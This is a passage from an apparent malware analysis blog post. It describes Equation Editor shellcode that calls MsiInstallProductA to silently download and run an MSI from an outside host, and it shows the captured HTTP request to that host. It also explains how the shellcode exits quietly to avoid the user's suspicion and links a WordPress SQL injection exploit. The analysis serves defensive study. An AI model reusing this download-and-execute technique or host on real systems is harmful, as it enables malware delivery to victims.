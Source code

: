 ![MsiInstallProductA](/images/0.png)
*Figure 1: Equation Editor Shellcode Executing [msi.MsiInstallProductA](https://docs.microsoft.com/en-us/windows/win32/api/msi/nf-msi-msiinstallproducta)*

This will result in the following traffic.

```http
GET /gts/bd.msi HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Windows Installer
Host: sbss.com.pk
```

This will execute the MSI installer silently on using the *eqnedt32.exe* process.

The site <font style="color:red">sbss[.]com[.]pk</font> appears to be a service that allows you to buy and sell property. It was created on Feb 15th, 2021 according to [PKNIC](https://pk6.pknic.net.pk/pk5/lookup.PK). Interestingly, the site is using Wordpress 5.8.3 at the time of this analysis. The previous version 5.8.2 had a major SQL Injection vulnerability [CVE-2022-21661](https://github.com/TAPESH-TEAM/CVE-2022-21661-WordPress-Core-5.8.2-WP_Query-SQL-Injection). It is not easily posible to determine what exactly happened to the website without access. It was either compromised or it was created by the threat actors themselves. This analysis will not go into the geopolitical aspects of tracing actors. We will save this for for another blog post.

Once completed, it will call *[kernel32.ExitProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-exitprocess)* as to not arouse any suspicion from the user.

Although, it may arouse some suspicion as the document is empty and does not contain any decoy text. 🤔
